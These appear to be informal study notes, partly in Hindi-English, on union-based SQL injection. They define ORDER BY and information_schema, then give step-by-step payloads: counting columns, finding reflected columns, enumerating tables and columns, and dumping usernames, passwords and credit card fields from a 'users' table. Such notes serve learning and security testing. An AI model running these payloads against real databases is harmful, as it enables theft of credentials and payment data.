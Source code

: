 ->order by is used for sorting

->Select->
A select query is a database object that shows information in Datasheet view

what is information schema?
->
Information schema is a structure set which store metadata and other information about tabls,views,columns and procedures in a database 

Database ki mummy


____________________________

find input
produce error
find the number columns
we could use union operator

so that we could find vulnerable columns

we can add querry or ask database for juicy information 



1'
 order by 1,2,3,4 jab tak apko number of column nhi pta chal jate

 11 columns

1 union select 1,2,3,4,5,6,7,8,9,10,11--+

vulnerable columns---> 7,2,9


database->table-columns



1 union select 1,2,3,4,5,6,table_name,8,9,10,11 from information_schema.tables--+


table name===users


1 union select 1,2,3,4,5,6,7,8,column_name,10,11 from information_schema.columns where table_name='users'--+


columns of table jiska nam kya hen ---> users



uname,pass,cc,addres


1 union select 1,2,3,4,5,6,group_concat(uname,"//",pass,"//",cc),8,9,10,11 from users--+

Sql malicious codes

Learn SQLi Query Fixing 

1. identify sqli vulnerability 
'
"
\
